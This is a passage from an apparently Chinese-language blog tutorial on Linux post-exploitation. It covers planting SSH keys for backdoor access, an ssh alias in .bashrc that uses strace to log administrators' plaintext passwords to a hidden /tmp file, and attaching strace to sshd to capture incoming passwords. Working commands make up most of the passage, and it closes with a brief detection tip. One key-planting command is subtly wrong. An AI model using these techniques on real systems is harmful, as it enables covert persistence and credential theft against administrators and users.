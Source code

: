 ![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305205754698-1274201580.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成 8081，8080 等端口。

#### 4.3 SSH 公钥免密登陆

```
ssh-keygen -t rsa //生成公钥
echo id_rsa.pub >> .ssh/authorized_keys  //将id_rsa.pub内容放到目标.ssh/authorized_keys里


```

这个是老生常谈的公钥免登陆，这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的 shell，如 struts 写入公钥，oracle 写入公钥连接，Redis 未授权访问等情景。

#### 4.4 SSH Keylogger 记录密码

当前系统如果存在 strace 的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

```
alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'


```

设置完毕后，倘若当前系统不存在 alias，那么就会影响其正常使用：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305210445202-153632745.png)

```
grep "read(5" /tmp/.sshpwd-09May32324242.log | tail -n 11    //根据不同环境自行调试响应行数


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211117157-1374708307.png)

#### 4.5 strace 监听 ssh 来源流量

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取 root 权限，但是不知道明文密码在横向扩展中可以使用。

之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用 strace 来监听登陆本地的 sshd 流量。

```
ps -ef | grep sshd    //父进程PID
strace -f -p 4241 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211719699-1558610383.png)

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305212145796-1257295497.png)

检测：查看 shell 的配置文件或者 alias 命令即可发现，例如 ~/.bashrc 或 ~/.zshrc 文件查看是否有恶意的 alias
